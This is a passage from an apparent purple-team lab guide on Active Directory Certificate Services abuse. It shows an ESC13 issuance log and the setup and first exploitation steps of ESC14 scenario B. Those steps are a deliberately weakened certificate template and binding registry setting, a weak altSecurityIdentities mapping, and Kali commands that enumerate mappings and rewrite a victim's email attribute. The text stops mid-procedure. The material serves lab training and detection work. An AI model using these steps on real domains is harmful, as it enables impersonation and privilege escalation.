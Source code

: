 ```

## 12.3 ADCS event logs

Unfortunatly, the ADCS related logs are not really pertinent for a detection point of view : 
```
Certificate Services approved a certificate request and issued a certificate.
	
Request ID:	61
Requester:	PURPLETEAM\attacker
Attributes:	CertificateTemplate:Vuln-ESC13
Disposition:	3
SKI:		d7 61 a4 af d7 4e 51 50 ef 24 65 a7 33 c5 83 22 b6 93 09 13
Subject:	E=attacker@purpleteam.local, CN=attacker, CN=Users, DC=purpleteam, DC=local
```

# 13 ESC14 - Scenario B

## 13.1 Setup a vulnerable configuration

### Certificate configuration

We need to duplicate the User certificate template and configure the followings under **Extensions** tab :
![ESC14-B_configuration.jpg](ESC14/ESC14-B_configuration.jpg)

We also need to autorize this certificate to be enrolled by domain users group.

In addition, we need to set the **CT_FLAG_NO_SECURITY_EXTENSION** in **msPKI-Enrollment-Flag** (same as ESC9) :
![ESC14-B_configuration2.jpg](ESC14/ESC14-B_configuration2.jpg).

### Setup StrongCertificateBindingEnforcement registry

To be able to exploit the ESC14 B scenario, the StrongCertificateBindingEnforcement registry should be set to 0 or 1.
![ESC14-B_StrongCertificateBindingEnforcement.jpg](ESC14/ESC14-B_StrongCertificateBindingEnforcement.jpg)

### Setup the weak explicit mapping on victimESC14 user

To do so, we need to modify the altSecurityIdentities attribute of victimESC14.
![ESC14-B-WeakExplicitMapping.jpg](ESC14/ESC14-B-WeakExplicitMapping.jpg)

## 13.2 Exploitation

1. Ensure that there victimESC14 account has a weak explicit mapping setup
```
┌──(kali㉿kali)-[~]
└─$ python3 GetWeakExplicitMappings.py --dc-host 172.16.0.1 -d purpleteam.local -u attacker -p '1attacker*'
[+] Connecion OK
[+] CN=victimESC14,CN=Users,DC=purpleteam,DC=local
   - X509:<RFC822>victimESC14@purpleteam.local
```                                                                                           

2. Modify victim e-mail attribute to victimESC14@purpleteam.local
```                                                
┌──(kali㉿kali)-[~]
└─$ ldapmodify -x -H ldap://172.16.0.1 -D "CN=attacker,CN=Users,DC=purpleteam,DC=local" -w "1attacker*" -f change_email.ldif
modifying entry "CN=victim,CN=Users,DC=purpleteam,DC=local"
```    

3. Request a certificate with the victim account             
```                                 